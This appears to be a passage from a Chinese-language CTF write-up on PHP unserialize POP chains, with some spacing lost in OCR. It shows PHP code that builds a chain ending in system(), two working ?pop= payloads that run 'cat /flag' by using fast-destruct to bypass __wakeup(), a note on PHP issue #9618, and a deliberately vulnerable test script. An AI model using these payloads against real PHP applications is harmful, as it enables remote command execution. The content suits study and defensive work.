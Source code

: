 exp:

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    <?phpclass sorry{   public $name;    public $password;    public $key;    public $hint;}  
    class show{    public $ctf;  
    }class secret_code{    public $code;}  
    class fine{    public $cmd;    public $content;    public function __construct(){        $this->cmd = 'system';        $this->content = ' /';    }}  
    $a=new sorry();$b=new show();$c=new secret_code();$d=new fine();$a->hint=$b;$b->ctf=$c;$e=new sorry();$e->hint=$d;$c->code=$e;$e->key=$d;echo (serialize($a));#O:5:"sorry":4:{s:4:"name";N;s:8:"password";N;s:3:"key";N;s:4:"hint";O:4:"show":1:{s:3:"ctf";O:11:"secret_code":1:{s:4:"code";O:5:"sorry":4:{s:4:"name";N;s:8:"password";N;s:3:"key";O:4:"fine":2:{s:3:"cmd";s:6:"system";s:7:"content";s:2:" /";}s:4:"hint";r:10;}}}}

‍直接传进去毫无疑问会因为die()而终止，这里我们就可以用fast-
destruct这个技巧使destruct提前发生以绕过wakeup()，比如我们可以减少一个} ：

?pop=O:5:"sorry":4:{s:4:"name";N;s:8:"password";N;s:3:"key";N;s:4:"hint";O:4:"show":1:{s:3:"ctf";O:11:"secret_code":1:{s:4:"code";O:5:"sorry":4:{s:4:"name";N;s:8:"password";N;s:3:"key";O:4:"fine":2:{s:3:"cmd";s:6:"system";s:7:"content";s:9:"cat
/flag";}s:4:"hint";r:10;}}}

或者在r;10;后面加一个1}：

?pop=O:5:"sorry":4:{s:4:"name";N;s:8:"password";N;s:3:"key";N;s:4:"hint";O:4:"show":1:{s:3:"ctf";O:11:"secret_code":1:{s:4:"code";O:5:"sorry":4:{s:4:"name";N;s:8:"password";N;s:3:"key";O:4:"fine":2:{s:3:"cmd";s:6:"system";s:7:"content";s:9:"cat
/flag";}s:4:"hint";r:10;1}}}}

都可以实现wakeup绕过

php issue#9618

php
issue#9618提到了最新版wakeup()的一种bug，可以通过在反序列化后的字符串中包含字符串长度错误的变量名使反序列化在__wakeup之前调用__destruct()函数，最后绕过__wakeup()，版本：

l7.4.x -7.4.30

l8.0.x

本地起一个环境：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     <?phphighlight_file(__FILE__);class A{    public $info;    private $end = "1";  
        public function __destruct(){        $this->info->func();        echo "des";    }}  
    class B{    public $znd;  
        public function __wakeup(){        $this->znd = "exit();";        echo '__wakeup';    }        public function __call($method, $args){        echo "__call ";    }}if(isset($_POST['pop'])){    @unserialize($_POST['pop']);}

‍

